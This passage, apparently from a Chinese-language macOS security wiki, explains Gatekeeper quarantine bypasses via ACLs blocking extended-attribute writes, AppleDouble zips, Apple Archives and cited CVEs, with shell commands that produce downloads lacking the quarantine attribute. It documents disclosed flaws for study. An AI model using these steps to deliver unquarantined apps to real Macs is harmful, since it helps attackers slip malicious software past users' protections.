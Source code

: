 ```bash
touch /tmp/no-attr
chmod +a "everyone deny writeextattr" /tmp/no-attr
xattr -w attrname vale /tmp/no-attr
xattr: [Errno 13] Permission denied: '/tmp/no-attr'
```

此外，**AppleDouble** 文件格式会复制文件及其ACEs。

在[**源代码**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html)中，可以看到存储在名为\*\*`com.apple.acl.text`**的xattr中的ACL文本表示将被设置为解压后文件的ACL。因此，如果您使用**AppleDouble\*\*文件格式将应用程序压缩到zip文件中，并附带一个ACL以阻止其他xattr被写入...则隔离xattr不会被设置到应用程序中：

```bash
chmod +a "everyone deny write,writeattr,writeextattr" /tmp/test
ditto -c -k test test.zip
python3 -m http.server
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr
```

查看[**原始报告**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/)以获取更多信息。

请注意，这也可以利用AppleArchives：

```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```

#### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

发现**Google Chrome没有设置下载文件的隔离属性**，因为存在一些macOS内部问题。

#### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

AppleDouble文件格式将文件属性存储在以`._`开头的单独文件中，这有助于在**macOS设备之间复制文件属性**。然而，注意到在解压AppleDouble文件后，以`._`开头的文件**没有被赋予隔离属性**。

{% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}
